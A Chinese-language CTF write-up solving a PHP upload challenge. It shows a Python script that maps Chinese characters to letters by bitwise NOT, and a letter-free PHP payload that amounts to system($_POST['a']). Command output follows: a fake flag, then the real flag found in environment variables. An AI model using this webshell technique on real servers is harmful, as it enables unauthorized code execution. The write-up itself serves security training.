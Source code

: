 ![](<./img/Pasted image 20230220192219.png>)

```
/index.php
```

![](<./img/Pasted image 20230220192242.png>)

```
/index.php?act=upload
```

![](<./img/Pasted image 20230220192325.png>)

无字母数字RCE，考虑使用汉字绕过

生成字典

```python
s = '悲'
l = list(s.encode())

for i in list(range(65, 91)) + list(range(97, 123)):
    l[1] = ~i + 256
    print(bytes(l).decode() + ' ==> ' + chr(i))

# 澲 ==> A
# 潲 ==> B
# 漲 ==> C
# 滲 ==> D
# 溲 ==> E
# 湲 ==> F
# 渲 ==> G
# 淲 ==> H
# 液 ==> I
# 浲 ==> J
# 洲 ==> K
# 泲 ==> L
# 沲 ==> M
# 汲 ==> N
# 氲 ==> O
# 毲 ==> P
# 殲 ==> Q
# 歲 ==> R
# 欲 ==> S
# 櫲 ==> T
# 檲 ==> U
# 橲 ==> V
# 樲 ==> W
# 槲 ==> X
# 榲 ==> Y
# 楲 ==> Z
# 枲 ==> a
# 杲 ==> b
# 朲 ==> c
# 曲 ==> d
# 暲 ==> e
# 晲 ==> f
# 昲 ==> g
# 旲 ==> h
# 斲 ==> i
# 敲 ==> j
# 攲 ==> k
# 擲 ==> l
# 撲 ==> m
# 摲 ==> n
# 搲 ==> o
# 揲 ==> p
# 掲 ==> q
# 捲 ==> r
# 挲 ==> s
# 拲 ==> t
# 抲 ==> u
# 扲 ==> v
# 戲 ==> w
# 懲 ==> x
# 憲 ==> y
# 慲 ==> z
```

payload

```php
<?=$_=[];$__=$_==$_;$___=~挲[$__];$___.=~憲[$__];$___.=~挲[$__];$___.=~拲[$__];$___.=~暲[$__];$___.=~撲[$__];$____=_;$____.=~毲[$__];$____.=~氲[$__];$____.=~欲[$__];$____.=~櫲[$__];$___($$____[~枲[$__]]);
```

翻译过来是

```php
system($_POST['a']);
```

![](<./img/Pasted image 20230220193201.png>)

![](<./img/Pasted image 20230220193226.png>)

```shell
ls /
```

```
Th1s_14_f14g
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

```shell
cat /Th1s_14_f14g
```

```
SUCTF{fake_flag_web_b}
```

假flag

找半天结果在环境变量里qaq

```shell
export
```

```shell
export APACHE_LOCK_DIR='/var/lock/apache2'
export APACHE_LOG_DIR='/var/log/apache2'
export APACHE_PID_FILE='/var/run/apache2/apache2.pid'
export APACHE_RUN_DIR='/var/run/apache2'
export APACHE_RUN_GROUP='www-data'
export APACHE_RUN_USER='www-data'
export FLAG='flag{4487500a-7f2b-4155-88ac-a52e58fddead}'
export HOSTNAME='out'
export KUBERNETES_PORT='tcp://10.240.0.1:443'
export KUBERNETES_PORT_443_TCP='tcp://10.240.0.1:443'
export KUBERNETES_PORT_443_TCP_ADDR='10.240.0.1'
export KUBERNETES_PORT_443_TCP_PORT='443'
export KUBERNETES_PORT_443_TCP_PROTO='tcp'
export KUBERNETES_SERVICE_HOST='10.240.0.1'
export KUBERNETES_SERVICE_PORT='443'
export KUBERNETES_SERVICE_PORT_HTTPS='443'
export LANG='C'
export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
export PWD='/var/www/html/upload'
```

#Web #PHP #RCE #unicode